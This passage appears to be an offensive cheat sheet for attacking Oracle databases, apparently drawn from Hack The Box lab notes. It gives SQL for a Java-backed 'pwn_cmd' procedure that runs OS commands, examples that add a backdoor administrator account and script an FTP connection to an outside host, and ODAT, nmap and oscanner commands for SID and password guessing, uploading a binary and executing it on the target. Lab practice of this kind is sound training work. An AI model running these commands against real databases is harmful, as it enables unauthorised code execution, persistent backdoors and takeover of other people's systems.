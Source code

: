 Create procedure:
```sql
CREATE OR REPLACE PROCEDURE pwn_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'pwn.cmd (java.lang.String)';
/

```

Run command:
```sql
exec pwn_cmd('net user trevelyn trevelyn /add');
exec pwn_cmd('net localgroup Administrators trevelyn /add');
exec pwn_cmd('cmd.exe /c echo open X.X.X.X > C:\ftp.txt'); 
```

### Tools

- Oracle Database Attack Tool (ODAT) <https://github.com/quentinhardy/odat>
    ```
    All checks:
    ./odat.py all -s 10.10.10.82 -p 1521
    ./odat.py all -s 10.10.10.82 -d XE -U scott -P tiger


    Gusss SID: 
    ./odat.py sidguesser -s 10.10.10.82

    Guess passwords:
    ./odat.py passwordguesser -d XE -s 10.10.10.82 -p 1521 --accounts-file /root/HTB/tools/db/odat/accounts/accounts.txt

    Guess login: 
    use admin/oracle/oracle_login

    Upload file:
    ./odat.py utlfile -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --putFile c:/ writeup.exe ~/HTB/silo/writeup.exe
    ./odat.py dbmsxslprocessor -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"

    Execute file:
    ./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
    ```
- Nmap
    ```
    nmap --script oracle-sid-brute (TARGET IP ADDRESS) -p 1521
    ```
- oscanner
    ```
    oscanner -s (TARGET IP ADDRESS)
    ```

### Queries 
